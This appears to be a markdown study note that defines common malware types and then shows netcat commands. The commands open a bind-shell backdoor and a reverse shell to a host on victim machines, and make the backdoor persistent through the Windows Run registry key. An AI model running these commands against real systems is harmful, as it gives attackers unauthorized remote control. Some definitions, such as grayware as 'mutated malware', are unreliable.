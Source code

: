 #### Malware
* Malicious Software that allows user to harm other system/user.
* Impact: Can cause DOS, Spy Users, Gain Unauthorized Access.

|Types|
|---|
|Virus|
|Trojan|
|Rootkit| 
|Bootkit|
|Adware|
|Spyware|
|Greyware|
|Dialer|
|Keylogger|
|Botnet|
|Ransomware|
|Worm|
|Data Stealing Malware|

#### Virus 
> Small piece of code that affects system, may execute every time when opeing the code, may replicate itself.

#### Trojan Horse
> Malware that can be embedded in harmless files like pdfs, Microsoft Office Files,etc. eg. Backdoor that can allow malicious user to gain shell on remote machine.Firewall can be used by network adminstrator to restrict connections from internet to internal machines.

#### Rootkit
> Malware that allows attacker to subert OS functioning.Attacker can maintain privileged access to victim machine bypassing firewalls.

#### Adware 
> Malcious software program that shows annoying ads to victim.

#### Spyware
> SOftware that allows attacker to monitor victims activities.Collects information like visited websites, collects password, etc.

#### Grayware
> Mutated malware

#### Keylogger
> Tracks users keystrokes, password and sends to attacker.Can be used in penetration tests.

|Keyloggers|Hardware Keylogger(Pendrive)|Rootkit Keylogger(more shealthy,invisible, works at kernel level hijacking OS APIs)|
|---|---|---|

![Screenshot at 2022-12-25 10-49-08](https://user-images.githubusercontent.com/85208639/209457618-4d5c4dd3-b815-4fbd-bc4f-fe2852fb2709.png)

#### Botnets
> Small Software programs installed on mass computers. Consist of C&C Server aand can be instructed to perform certain task simultaneously.

#### Ransomware
> Software that encrypts victims files with secret key.

#### Data Stealing Software
> Malicious software program capable of stealing most sensitive data.

#### Backdoor With Netcat

```
ncat.exe -l -p 5555 -e cmd.exe >> In victims Machine

nc 192.168.10.102 5555

```

#### Reverse Connection With Netcat

> Victim is on internal network and attacker wants to connect to it.

```
nc -lvp 5555  >> Attacker listens on port 5555
nc.exe -e cmd.exe 192.168.0.1 5555


```

#### Creating Persistent Backdoor With Netcat

* Attacker needs to edit the victims registry so even when victim closes his system upon reboot attacker will be able to get a shell.
```
nc -l -v -p 5555 >> In attackers machine
Open "regedit" in victims machine and navigate to "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"  and add new registry.
```
![Screenshot at 2022-12-25 13-04-04](https://user-images.githubusercontent.com/85208639/209460152-2b8f0ad9-177d-4f3e-8ff7-a91606ae3f93.png)

```

```

